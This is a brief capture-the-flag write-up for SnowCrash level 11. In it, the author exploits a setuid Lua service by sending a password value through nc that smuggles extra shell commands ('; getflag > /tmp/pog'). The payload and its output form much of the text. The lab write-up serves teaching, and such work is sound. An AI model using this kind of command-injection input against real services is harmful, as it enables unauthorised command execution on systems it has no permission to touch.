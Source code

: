 # Snowcrash11

This one is pretty simple

```sh
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
We have access to a lua script that tries into baiting us to reversing a hash (i found this particuliar one online)  
But the goal here is shell injection, and i can be done with nc (as intended)



```sh
level11:~$ nc 127.0.0.1 5151
Password: test ; getflag > /tmp/pog ; ls
Erf nope..
level11:~$ cat /tmp/pog
Check flag.Here is your token : REDACTED
```
Told ya
